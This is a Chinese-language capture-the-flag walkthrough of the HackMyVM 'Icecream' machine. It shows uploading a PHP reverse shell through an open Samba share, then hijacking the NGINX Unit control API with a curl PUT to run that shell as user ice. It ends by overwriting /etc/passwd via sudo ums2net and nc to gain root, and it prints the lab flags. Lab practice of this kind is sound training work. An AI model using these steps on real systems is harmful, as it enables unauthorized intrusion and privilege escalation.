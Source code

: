 # Icecream

2024-11-03 https://hackmyvm.eu/machines/machine.php?vm=Icecream

difficulty: Easy

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
9000/tcp open  cslistener
```

80 的 web 服务上没有信息。

看 139 和 445 的 samba 服务：

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
icecream        Disk      tmp Folder
IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
nobody          Disk      Home Directories
```

smbclient -N //192.168.5.40/icecream 进入后，ls 没发现什么有用文件,对应的是 /tmp 目录，但是对应的有上传功能，上传一个 web shell 看看是否能访问回连，经过测试可以回连：

```
put 8888.php


nc -lvnp 8888
curl http://192.168.5.40/8888.php
```

得到了 www-data 的权限，但是没办法升级到 ice 用户权限，这个路径行不通。

ice 用户运行了 9000 端口的 cslistener 服务，能发现目标系统上的安装软件版本。进行目录扫描，发现如下目录：

```
/config               (Status: 200) [Size: 62]
/status               (Status: 200) [Size: 862]
/certificates         (Status: 200) [Size: 4]

unit: main v1.33.0 [/usr/sbin/unitd --control 0.0.0.0:9000 --user ice]
```

https://unit.nginx.org/controlapi/ 通过下面的代码控制 unitd 的路由功能：

```
利用上面 samba 功能上传一个7777端口的php shell

config.json 中的内容如下：

{
  "listeners": {
    "*:5555": {
      "pass": "routes"
    }
  },
  "routes": [
    {
      "match": {
        "uri": "*"
      },
      "action": {
        "pass": "applications/myapp"
      }
    }
  ],
  "applications": {
    "myapp": {
      "type": "php",
      "root": "/tmp",
      "index": "7777.php",
      "script": "7777.php"
    }
  }
}

curl -X PUT --data-binary @config.json http://192.168.5.40:9000/config

{
	"success": "Reconfiguration done."
}
```

完成上面的路由创建后，在 kali 上访问 curl http://192.168.5.40:5555 就可以得到 php 7777 的回连 shell:

```
ice@icecream:/$ id
id
uid=1000(ice) gid=1000(ice) grupos=1000(ice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

获得 user flag：

```
ice@icecream:/home/ice$ cat user.txt
HMVaneraseroflove
```

寻找提升至 root 的方法，sudo -l 发现：

```
(ALL) NOPASSWD: /usr/sbin/ums2net
```

在目标机器上创建 config 配置文件: echo '29543 of=/etc/passwd bs=4096' >> config , 然后执行代码：sudo /usr/sbin/ums2net -c config -d

可以通过 ums2net 将 tcp 传输的数据通过 usb 存储到文件，先读取目标文件的 /etc/passwd , 然后在 kali 上创建相同的文件，并且修改 root 用户的密码为 123

```
openssl passwd -1 -salt new 123

root:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

在 kali 上执行 nc 将修改后的 passwd 传输到目标机器： nc -q 5 192.168.5.40 29543 < passwd

传输完成后，使用 su root 输入密码 123 得到了 root 权限，最后获得了 root flag：

```
root@icecream:~# cat root.txt
HMViminvisible
```
